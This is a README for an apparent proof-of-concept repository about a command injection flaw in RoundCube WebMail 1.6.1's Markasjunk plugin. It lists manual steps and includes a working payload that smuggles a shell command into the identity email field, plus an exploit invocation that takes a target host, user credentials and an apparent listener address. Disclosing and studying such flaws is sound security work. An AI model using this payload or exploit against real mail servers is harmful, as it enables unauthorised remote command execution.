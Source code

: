 # RoundCube WebMail 1.6.1 - Markasjunk Vulnerability PoC

## Overview

This repository contains a Proof of Concept (PoC) for the `Markasjunk` plugin vulnerability in RoundCube WebMail version 1.6.1 (Used version for test). The vulnerability allows an attacker to execute arbitrary commands due to improper filtering of user inputs.

## Prerequisites

- Access as User (got credentials!)

## Manual Proof of Concept

1. Log in to the RoundCube WebMail interface.
2. Navigate to `Settings -> Identities`.
3. Modify the email address to include the payload:
    ```
    pwn&touch${IFS}test.txt&@pwn.com
    ```
4. Move any email to the "junk folder".
5. Verify that the command has been executed by checking for the presence of `test.txt` in the server's file system.
   [Reference](https://cyberthint.io/roundcube-markasjunk-command-injection-vulnerability/)

## Exploit use example

This PoC is for educational purposes only. Use it at your own risk. The author is not responsible for any damage caused by the misuse of this information.
```
./exploit vulnerablehost.com pwned@user.pwn PwnPassword! 127.0.0.1 1337
```

![PoC](https://github.com/s4orii/PoC-RoundCube-1.6.1-Plugin-RCE/blob/cb7bd7982d7e0a30b5cabee016c3aa05c378ea3f/PoC.gif)

